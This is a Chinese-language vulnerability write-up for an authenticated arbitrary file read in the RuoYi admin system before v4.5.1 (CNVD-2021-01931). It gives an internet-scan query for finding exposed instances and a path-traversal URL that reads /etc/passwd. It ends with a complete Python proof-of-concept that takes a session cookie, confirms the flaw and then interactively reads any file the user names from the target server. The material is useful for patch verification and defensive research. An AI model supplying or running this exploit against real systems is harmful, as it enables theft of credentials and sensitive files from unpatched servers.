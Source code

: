 # 若依管理系统 后台任意文件读取 CNVD-2021-01931

# 若依管理系统 后台任意文件读取 CNVD-2021-01931

## 漏洞描述

若依管理系统是基于SpringBoot的权限管理系统,登录后台后可以读取服务器上的任意文件

## 漏洞影响

```
RuoYi < v4.5.1
```

## 网络测绘

```
app="若依-管理系统"
```

## 漏洞复现

登录后台后访问 Url

https://xxx.xxx.xxx.xxx/common/download/resource?resource=/profile/../../../../etc/passwd



![](/images/202202101959920.png)



访问后会下载文件 **/etc/passwd**



![](/images/202202101959203.png)



可以使用Burp抓包改变 **/etc/passwd** 为其他文件路径获取敏感信息



![](/images/202202101959880.png)



![](/images/202202102000770.png)



在新版本的修复中添加了过滤



![](/images/202202102000888.png)



## 漏洞POC

- ✅POC使用需要后台的Cookie,读取的文件路径应为根路径



```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: RuoYi < v4.5.1                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCookie      >>> JSESSIONID=xxxxxx                                   \033[0m')
    print('+  \033[36mFile        >>> /etc/passwd                                         \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, Cookie):
    vuln_url = target_url + "/common/download/resource?resource=/profile/../../../../etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":Cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}//common/download/resource?resource=/profile/../../../../etc/passwd \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                Filename = input("\033[35mFile >>> \033[0m")
                if Filename == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, Cookie, Filename)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie, Filename):
    vuln_url = target_url + "/common/download/resource?resource=/profile/../../../../{}".format(Filename)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":Cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Cookie = str(input("\033[35mCookie >>> \033[0m"))
    POC_1(target_url, Cookie)
```



![](/images/202202102000795.png)

